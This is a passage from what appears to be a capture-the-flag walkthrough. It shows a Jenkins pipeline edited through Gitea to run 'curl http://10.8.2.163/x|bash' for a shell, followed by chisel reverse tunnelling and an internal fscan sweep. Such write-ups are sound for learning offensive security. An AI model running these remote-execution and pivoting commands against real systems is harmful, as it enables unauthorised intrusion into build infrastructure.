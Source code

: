 Login in gitea

There is a webhook that triggers on push events, we can check that here ```http://10.10.126.198:3000/buildadm/dev/settings/hooks/1```

Ok so now modify the script like that

```console
pipeline {
    agent any

    stages {
        stage('Do nothing') {
            steps {
                sh 'curl http://10.8.2.163/x|bash'
            }
        }
    }
}
```
Click on ```Commit Changes``` and wait

Ok now we have a shell in a container

As we saw before, 3306 and 8081 are filtered in the nmap scan, so we probably need to access it internally, let's forward with chisel

## Mysql

```bash
chisel server -p 999 --socks5 --reverse

./chisel64 client 10.8.2.163:999 R:socks &
```
First we will enumerate a little

```bash
# /etc/hosts
127.0.0.1	localhost
::1	localhost ip6-localhost ip6-loopback
fe00::0	ip6-localnet
ff00::0	ip6-mcastprefix
ff02::1	ip6-allnodes
ff02::2	ip6-allrouters
172.18.0.3	5ac6c7d6fb8e
```
```bash
./fscan -h 172.18.0.0/24

[+] 端口开放 172.18.0.6:80
[+] 端口开放 172.18.0.2:22
[+] 端口开放 172.18.0.1:22
[+] 端口开放 172.18.0.5:8081
[+] 端口开放 172.18.0.2:3000
[+] 端口开放 172.18.0.1:3000
[+] 端口开放 172.18.0.4:3306
[+] 端口开放 172.18.0.1:3306
[+] 端口开放 172.18.0.1:8081
[+] 端口开放 172.18.0.3:8080
```
Now login to mysql
